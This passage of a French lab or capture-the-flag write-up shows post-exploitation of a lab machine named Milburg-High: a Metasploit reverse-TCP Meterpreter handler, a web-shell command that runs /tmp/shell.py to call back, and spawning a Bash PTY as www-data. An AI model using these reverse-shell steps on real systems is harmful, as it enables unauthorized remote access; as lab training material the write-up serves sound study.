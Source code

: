 Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 4444.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole
                                                  
--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.101:4444
```

De retour une nouvelle fois sur le Web-Shell, le fait de lancer la commande _id && python /tmp/shell.py_ amorce la connexion.

```console 
msf exploit(multi/handler) > [*] Sending stage (53168 bytes) to 192.168.56.103
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.103:41370) at 2018-05-08 22:22:22 +0200

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                       Information  Connection
  --  ----  ----                       -----------  ----------
  1         meterpreter python/python               192.168.56.101:4444 -> 192.168.56.103:41370 (192.168.56.103)
```

Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : Milburg-High
OS              : Linux 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23)
Architecture    : x64
System Language : C
Meterpreter     : python/linux

meterpreter > shell
Process 10727 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)

$ python -c 'import pty; pty.spawn("/bin/bash")'

www-data@Milburg-High:/var/www/html$
www-data@Milburg-High:/var/www/html$ ls   
ls
```